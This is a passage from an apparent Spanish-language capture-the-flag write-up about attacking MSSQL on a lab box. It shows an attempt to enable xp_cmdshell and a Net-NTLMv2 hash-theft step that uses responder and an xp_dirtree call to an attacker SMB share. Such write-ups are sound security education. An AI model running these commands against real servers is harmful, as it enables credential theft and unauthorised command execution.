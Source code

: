 #### Attempting to enable (xp\_cmdshell) function on MSSQL (Failed)

Al no disponer de ninguna BBDD interesante, otra de las maneras que podemos de intentar explotar el MSSQL es a través de la función `xp_cmdshell` la cual nos permite ejecutar comandos arbitrarios en el equipo víctima.

Al intentar habilitar este componente, verificamos que el usuario que disponemos actualmente no dispone de privilegios para realizar esta acción.

```sql
SP_CONFIGURE "show advanced options",1
```

<figure><img src="../../../.gitbook/assets/3481_vmware_Fm2DLfvNqV.png" alt=""><figcaption></figcaption></figure>

#### MSSQL Hash Steal Attempt \[Net-NTLMv2] (xp\_dirtree) - \[FAILED]

Otro tipo de ataque a realizar al acceder a un MSSQL, es intentar robar el hash NTLMv2 del usuario que corre el servicio SQL.

Este proceso se basa en crear un servidor SMB a través de `smbserver.py` o `responder` y desde el servicio de MSSQL listar el contenido del recurso compartido para lograr obtener el hash NTLMv2 del usuario.

En este caso, verificamos que hemos recibido el hash NTLMv2 del usuario `sql_svc`, el cual antes habíamos comprobado que también era Kerberostable y no logramos crackear su hash. Por lo tanto, con este otro hash del mismo usuario, con el diccionario empleado tampoco lograremos crackear su hash para lograr obtener la contraseña en texto plano.

```sql
responder -I tun0 -v

EXEC Master.dbo.xp_dirtree"\\10.10.16.5\x",1,1;
```

<figure><img src="../../../.gitbook/assets/3482_vmware_O39f67oN6r.png" alt=""><figcaption></figcaption></figure>

### Enumerating MSSQL with oscar user

Con el usuario anterior no hemos logrado obtener ningún tipo de información relevante, por lo tanto, procederemos a autenticarnos al MSSQL con el usuario `oscar@sequel.htb`.

Al acceder al MSSQL verificaremos si con este usuario tenemos acceso a alguna BBDD nueva y a verificar si disponemos de acceso a habilitar la función `xp_cmdshell`.
